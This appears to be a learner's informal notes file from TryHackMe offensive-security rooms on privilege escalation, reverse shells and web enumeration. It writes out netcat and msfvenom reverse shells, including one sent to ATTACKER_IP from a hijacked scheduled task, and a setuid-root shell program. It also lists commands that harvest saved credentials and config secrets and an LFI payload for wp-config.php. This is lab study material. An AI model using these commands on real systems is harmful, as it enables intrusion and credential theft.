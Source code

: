 # R

* Remember for web/general/security
* .todo: dns discord
* web general | terminology | URL may have to be moved

<hr>

## Notes

* CTF =  capture the flag

<hr>

## Prev esc

https://tryhackme.com/room/linprivesc
=> hint/notes
=> network

* https://tryhackme.com/room/introtoshells
* If there are tools not installed on your target: https://github.com/andrew-d/static-binaries
* nc ip port -e /bin/bash (rev shell)
* nc -lvnp port -e /bin/bash (bind shell)
* this is not included in most versions of netcat
* `mkfifo /tmp/f; nc XXX < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f` (listener for our wxw shell)
* https://tryhackme.com/room/introtoshells (Windows)
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-traditional
* `msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`
* staged reverse shell payloads and stageless
* exploit/multi/handler
  * It's essential if you want to use Meterpreter shells, and is the go-to when using staged payloads
  * `set PAYLOAD X`
  * `exploit -j`
* socat is a sort of ncat+more, but not installed by default, and harder to learn.
  * Read again the section: https://tryhackme.com/room/introtoshells
  * Can encrypt, may bypass an IDS: https://tryhackme.com/room/introtoshells
* Socat: transfer the socat binary
* Reverse shells/... note lasty

https://tryhackme.com/room/linprivesc
=> capabilities
=> `getcap -r / 2>/dev/null`
=> gtfobins
* https://www.revshells.com/ (sh => bash)
* if no_root_squash present
* Another alternative to this program, is to create a suite file with a copy of bash.

```c
int main() {
  setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}
```

* https://tryhackme.com/room/windowsprivesc20 (premium)

```
Misconfigurations on Windows services or scheduled tasks
Excessive privileges assigned to our account
Vulnerable software
Missing Windows security patches
```

* System are more perms that admin
* Windows Deployment Services: deploy an image to serveral hosts. These are refereed as Unattended, Admin account required to create them. Credentials

```
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```

* PowerShell's history: `type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt` and in a cmd `type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`
* List saved crendetials `cmdkey /list`. Run command as another user? `runas /savecred /user:admin cmd.exe`
* Internet Information Services (IIS) is the default web server on Windows installations.

```
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

* PuTTY `reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s`
* `schtasks /query /tn vulntask /fo list /v`: look for ones in which we can inject/modify the binary
* Start task manually `schtasks /run /tn vulntask` (CTF)
* `icacls c:\tasks\schtask.bat`: check permissions (F=Full Access)
* (cmd) `echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > task.bat`
* Windows installer files (-f msi -o malicious.msi)
* Windows services are managed by the Service Control Manager (SCM).
* `sc qc` (ahah, my steel moutain)
* IN A EFFING CMD BITCH (otherwise: sc.exe)
* Unquoted Service Paths
  * If there are space in the executable space
  * and there is an executable that can be created in the path of the service
  * then the executable will be executed with the rest of the path as arguments
  * AD and WD privileges, allowing the user to create subdirectories and files
  * https://askubuntu.com/questions/1075098/remmina-scaling-options
* Insecure Service Permissions
* XXX
* https://tryhackme.com/room/windowsprivesc20 (dropped fur now)
* XXX
* Moar
  * https://github.com/bitsadmin/wesng
  * https://blog.bitsadmin.com/blog/windows-security-updates-for-hackers
  * https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
  * https://github.com/gtworek/Priv2Admin
  * https://github.com/antonioCoco/RogueWinRM
  * https://jlajara.gitlab.io/Potatoes_Windows_Privesc
  * https://decoder.cloud/
  * https://dl.packetstormsecurity.net/papers/presentations/TokenKidnapping.pdf
  * https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation

<hr>

## Forced Browsing

* https://tryhackme.com/room/webenumerationv2
  * Gobuster options.
  * -k for ssl errors
* Gobuster DNS/VHosts
* Useful wordlists
* nmap `-n` redo
* add a warning + 64th
* `cat /usr/share/wordlists/dirb/extensions_common.txt | tr '\n' ','`
* `gobuster -u` for vhost
* `gobuster vhost -u http://webenum.thm -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t50 --append-domain` (in new versions of gobuster, false by default)
* NOT FINISHED https://tryhackme.com/room/webenumerationv2

> While participating in rooms on TryHackMe, virtual hosts would be a good way to hide a completely different website if nothing turned up on your main port 80/443 scan.

<hr>

## Overconfidence

--- https://tryhackme.com/room/steelmountain

* use meterpreter upload to upload the winPEAS
* `upload /tmp/xxx`
* `shell`
* `.\winPEASany_ofs.exe`
* `powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"`
* `powershell -ep bypass -c ". .\PowerUp.ps1;"`
* `https://github.com/itm4n/PrivescCheck#metasploit-timeout`
* `load powershell`
* `powershell_shell`
* `. .\PowerUp.ps1; Invoke-AllChecks`
* `. .\PowerUp.ps1` `PS > Invoke-AllChecks`
* https://www.joesandbox.com/#windows
* https://github.com/EgeBalci/sgn
* sc qc XXX
* sc stop XXX
* `Write-ServiceBinary -Name 'XXX' -Path ".\nc.exe"`
* sc start XXX
* `powershell -c wget "URL" -outfile "OUTPUT"`
* like OTX: https://cyware.com/

--- https://tryhackme.com/room/allinonemj

* Kali right-arrow
* Test: `wpscan --url http://10.10.162.222/wordpress/ --detection-mode aggressive`
* `php://filter/convert.base64-encode/resource=../../../../../wp-config.php` (file inclusion)
* not finished aza.